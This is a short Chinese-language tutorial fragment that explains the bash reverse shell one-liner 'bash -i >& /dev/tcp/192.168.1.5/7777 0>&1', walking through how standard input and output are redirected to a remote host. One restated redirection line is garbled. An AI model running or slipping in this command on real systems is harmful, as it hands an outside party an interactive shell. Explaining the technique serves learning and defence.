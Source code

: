 `bash -i >& /dev/tcp/192.168.1.5/7777 0>&1`

< 是对标准输入 0 重定向 ，> 是对标准输出 1 重定向

bash -i：产生一个bash交互环境

将bash -i 和 `/dev/tcp/192.168.1.5/7777` 的标准输出1一起重定向给 `/dev/tcp/192.168.1.5/7777`，

bash -i > `/dev/tcp/192.168.1.5/7777` > 0

    `/dev/tcp/192.168.1.5/7777`

0 	0

1	1

2	2

